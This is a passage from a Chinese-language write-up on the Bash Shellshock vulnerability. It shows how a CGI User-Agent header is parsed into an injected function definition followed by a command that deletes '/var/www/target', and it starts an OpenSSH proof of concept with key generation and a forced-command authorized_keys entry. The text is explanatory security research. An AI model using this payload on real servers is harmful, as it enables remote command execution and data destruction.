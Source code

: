 这个例子当中，内容被传入 HTTP_USER_AGENT (CGI 会把HTTP头当成环境变量解析). 最终变成这样：

```
HTTP_USER_AGENT() {
    :;
};
/bin/rm /var/www/target

```

应该只解析函数的定义，但是后面的内容仍然执行了。

### 4, 针对OpenSSH的POC

目前有2个攻击平面，Solar Designer给出了SSH_ORIGINAL_COMMAND的本地利用方法：

[seclists.org/oss-sec/2014/q3/651](http://seclists.org/oss-sec/2014/q3/651)

还有就是针对远程利用的POC，通过利用TERM：

在机器A上生成一对RSA key pair:

```
shawn@debian-test32:~/.ssh$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/shawn/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/shawn/.ssh/id_rsa.
Your public key has been saved in /home/shawn/.ssh/id_rsa.pub.
The key fingerprint is:
09:1c:92:fb:c5:68:f8:e1:b9:c2:62:a8:c7:75:5b:dc shawn@debian-test32
The key's randomart image is:
+--[ RSA 2048]----+
|    ...          |
|    .o .         |
|     ooo         |
|    o +.o.       |
|     = =S.       |
|    . * o E      |
| o o . +         |
|. = o o          |
|oo . .           |
+-----------------+

```

把A的公钥拷贝到机器B上：

```
$cat /home/shawn/.ssh/authorized_keys
command="/tmp/ssh.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9xYHEdjbbvSO+RAtDS3u+R4sD87SUQq5OZJ+6P5n3BoOz8eKfmK2B4qQa28uGvpseFSSXIoXTKdeS3mCXevbibGG6E3RQ63U7USrh9iQupO6c45Qt+3/WOo7X3mRlZ1awUmCjurcA5Zm/yOvyMJCoRd1kpkiJljgHtMztEhWvAE4inFkqyWC81SSfsvNd/GEiyCpFw84UTdF/cH626V3V73hlxwBMd8UKI27I7ATMOcPgWsI5738tLpgPDSisvZZXZNlxAfvSgpxKYAHOQ9VsaJCG4q+Giob5iX4IDzn8gs8G7uGW+EGhzTMq83f/8ar5a5Ex8Dg9M/loYPIPp5gJ shawn@debian-test32

```
